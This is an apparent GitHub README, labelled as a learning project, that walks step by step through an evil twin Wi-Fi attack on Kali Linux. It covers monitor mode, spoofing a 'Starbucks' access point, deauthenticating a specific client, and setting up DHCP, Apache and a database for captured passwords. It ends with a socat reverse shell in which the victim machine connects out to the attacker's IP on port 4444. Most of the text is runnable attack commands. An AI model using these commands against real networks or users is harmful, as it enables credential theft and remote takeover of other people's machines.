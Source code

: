 # 前言  ![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)

仅供参考,此project为学习之用,了解破解流程,学习无线安全

The recording file is in the link below:

https://drive.google.com/open?id=1EdF8AQh95s0FsDAZry5Uj2Y-TkjsgGOC

system : kali linux

software : aiicrack-ng dnsmasq
## Task2 

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. Set up a fake AP impersonating the target AP

the client will be disconnected from the AP we input above 

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'Starbucks' -c 11 wlan0mon
```

-a :set up MAC address (this is optional)

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11 (this is optional)

## 4. deauth target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI



###  DHCP server 

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
launch the DHCP server ,

in kali , use command,

```
 dhcpd -cf /etc/dhcp/dhcpd.conf
```

after that ,type command below

start web server Apache

```
/etc/init.d/apache2.start
``` 
 
4.install mysql-server for storing captured password
 
```
apt-get install mariadb-server
```
Actually, for Kali Linux the apt-get install mysql-server command will not work, but try with apt-get install mariadb-server.
 
This will install MySQL
 
after installation ,type
 
```
/etc/init.d/mysql start
```

###  Reverse shell

1. install socat 

Type the command in your terminal

```
apt-get install socat
```
2. in victim machine
in this case 

VICTIM IP：192.168.1.107

KALI IP：192.168.1.102

Type command

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.102:4444
```
Just change the victimIP with your target IP

and in the attcker machine which is kali

Type command

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
